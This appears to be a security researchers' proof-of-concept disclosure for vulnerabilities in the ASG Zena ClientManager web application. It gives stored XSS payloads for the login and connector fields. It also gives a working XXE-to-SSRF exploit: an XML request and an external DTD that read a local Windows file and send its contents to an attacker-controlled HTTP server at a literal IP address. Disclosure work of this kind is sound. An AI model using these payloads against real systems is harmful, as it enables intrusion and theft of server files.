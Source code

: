 # Zena

##Basic payload details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):
• Type: Stored XSS – Unauthenticated
• Pages Affected: /zena/index.html
• Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):
• Type: Stored XSS
• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.
• Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```


![image](https://user-images.githubusercontent.com/81385287/171973915-0ff4e8b4-2d39-4558-a794-a7dae6e4935d.png)
![image](https://user-images.githubusercontent.com/81385287/171973946-9073ad46-e200-437a-80f8-5f11669b462a.png)
![image](https://user-images.githubusercontent.com/81385287/171973970-c2f7eefe-4cfe-4a64-ad27-4691324c1952.png)

## Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena

CVE-xxxx-xxxxx XXE

CVE-xxxx-xxxxx SSRF

Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:

```

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>
```



External DTD code hosted on attacker server as xxe.dtd:

```

<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">

```

![image](https://user-images.githubusercontent.com/81385287/171972899-f595ccbc-f45b-4368-8944-f470960ebad9.png)



